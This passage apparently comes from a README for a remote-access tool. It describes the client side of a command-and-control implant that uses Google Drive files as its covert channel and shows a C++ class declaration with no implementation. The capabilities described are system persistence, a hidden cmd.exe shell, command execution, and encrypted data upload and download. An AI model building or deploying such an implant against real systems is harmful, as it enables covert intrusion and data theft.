 * **Command State** `lastProcessedCommandFile` – remembers the last command file name that was handled. This prevents processing the same command twice if the file remains on Drive.
* **Persistent Shell Handles** `hShellStdin`, `hShellStdout`, `shellPI`, `shellRunning` – handles and state for an **optional persistent shell** (a hidden `cmd.exe` process). If enabled, the client spawns a background command shell once and reuses it for executing multiple commands, which is more efficient and preserves shell state. These members track the shell process and its I/O pipes.

```cpp
class Client {
public:
    Client();
    void PersistInSystem();
    std::string ReadFromRegistry();
    void ExtractUploadClientInfo();
    void UpdateRealTimeStatus();
    std::tuple<bool, std::string, std::string> CheckForCommands();
    std::string ExecuteCommand(const std::string& command);
    void Shutdown();
    void EncryptAndUploadData(const std::string& fileName, const std::string& data, const std::string& fileUpdate);
    std::string DownloadAndDecryptData(const std::string& fileID);
    std::string CheckFileExists(const std::string& fileName);
    std::string GetFileParentId(const std::string& fileId);
    std::string DownloadData(const std::string& fileId);
    std::string GetClientID() const;
    std::string RunExecutable(const std::string& exePath);
    std::string GetRemoteFileName(const std::string& fileId);
    bool SpawnShell();
    void CleanupShell();
    bool IsShellAlive() const;
    **snip snip**
private:
    std::string clientID;
    std::string statusFileID;
    std::string lastProcessedCommandFile;
    DriveAPI driveAPI;               // Google Drive interface
    Encryption encryptionClient;     // Crypto helper (libsodium)
    std::vector<unsigned char> clientPublicKey;
    std::vector<unsigned char> receiveKey, transmitKey;
    HANDLE hShellStdin = nullptr, hShellStdout = nullptr;
    PROCESS_INFORMATION shellPI{};
    bool shellRunning = false;
};
```

The **Client** class is self-contained and doesn't open any listening network sockets. Instead, it communicates entirely by manipulating files on Google Drive (the "C2" medium), similar to the server. The client's primary responsibilities are to **establish an initial presence** (create its folder and keys, report system info, and ensure it auto-starts), then **enter a loop to receive and execute commands** from the server. Execution of commands may spawn local processes (for shell commands or running programs), but there is no direct interactive console on the client side – it runs silently in the background.
